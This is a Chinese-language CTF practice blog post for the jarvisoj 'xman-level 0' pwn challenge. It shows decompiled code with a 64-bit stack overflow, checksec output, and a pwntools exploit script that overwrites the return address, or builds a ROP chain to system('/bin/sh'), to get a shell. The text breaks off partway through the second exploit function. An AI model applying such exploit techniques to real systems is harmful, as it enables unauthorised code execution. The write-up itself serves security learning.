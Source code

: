 ```yaml
---
layout: post
title: jarvisoj 练习记录
---
```


## PWN

### xman-level 0
一个64位下的栈溢出：
``` c
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL); //溢出点
}
```
开启了NX保护
``` bash
trump@ubuntu:~/Desktop/xman$ checksec level0
	[*] '/home/trump/Desktop/xman/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
trump@ubuntu:~/Desktop/xman$ 

```
考虑使用ROP进行exp：
```
[---buf---][--ebp--][--gadget--][--binsh--][--system--]
```
exp如下：
``` python
#!/usr/bin/python

from pwn import *

def exploit():
    global io
    system_addr = 0x0000000000400596
    
    payload   = 'A' * 0x80
    payload  += 'A' * 0x8        # ebp 
    payload  += p64(system_addr)  # system_addr
    
    sleep(0.5)
    io.sendline(payload)
    
    # get shell
    io.interactive()

def exploit2():
    global io
    system_addr = 0x0000000000400460
    binsh_addr  = 0x0000000000400684
    gadget_addr = 0x0000000000400663
    
    payload   = 'A' * 0x80
    payload  += 'A' * 0x8         # ebp 
    payload  += p64(gadget_addr)  # pop rdi;ret
```